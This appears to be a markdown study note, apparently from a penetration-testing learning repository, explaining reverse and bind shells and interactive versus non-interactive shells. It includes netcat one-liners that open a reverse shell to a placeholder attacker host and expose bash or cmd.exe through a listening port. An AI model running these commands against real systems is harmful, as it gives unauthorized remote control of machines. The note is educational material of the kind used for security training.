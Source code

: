 # Shells

- Shells are what we use when we are interfacing with a command line environment. (CLI)
- bash/sh are examples of shells in linux
- cmd.exe/powershell are examples of shells in windows
- when targeting remote systems it is sometimes possible to force an application into running arbitrary code.
- when this happens, we want to use this initial access to obtain a shell running on the target.

In simple terms,
- we can force the remote server to either send us command line access to the server **(a reverse shell)** or we can open up a port on the server which we can in order to execute further commands **(a bind shell)**
- So, we receive **reverse shells** and send **bind shells**

## Reverse Shell
- The target is forced to execute a piece of code that connects back to the computer.
- the attacking computer will have a listening port onto which the connection is received.
- reverse shells are good ways to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target
- but there is a pre-requisite that your incoming firewall should not block the reverse shell connection.

```
Example:-

# on the attacking machine

nc -lnvp 443

# on the target

nc <ATTACKING_MACHINE> 443 -e /bin/bash
```
## Bind Shell
- the code executed on the target invokes a listener on the target itself
- this would then be opened up to the internet, this means you can connect to the port that code has opened and obtain remote connection that way.
- this has the advantage of not configuring your network in anyway but the firewalls on the target side may block the connection to this newly opened port.

As a general rule, reverse shells are easier to connect and debug.

```
Example:- 

# on the attacking machine

nc <TARGET_MACHINE_IP> <PORT>

# on the target machine

nc -lnvp <port> -e cmd.exe

# this is what is called as remote code execution
```

## interactive and non-interactive shells

unfortunately most of the simple reverse and bind shells are non-interactive, which can make exploitation even trickier.
`where` is the output going is for you to find.

`listener` is often found in the attacking machines. It has an alias - `sudo rlwarp nc -lnvp 443`

## order of reading
- [ReadMe](./README.md)
- [tools](./tools.md)
- [stabilization techniques](./stabilization_techniques.md)
- [socat](./socat.md)
- [common shell payloads](./common_shell_payloads.md)
- [msfvenom](./msfvenom.md)
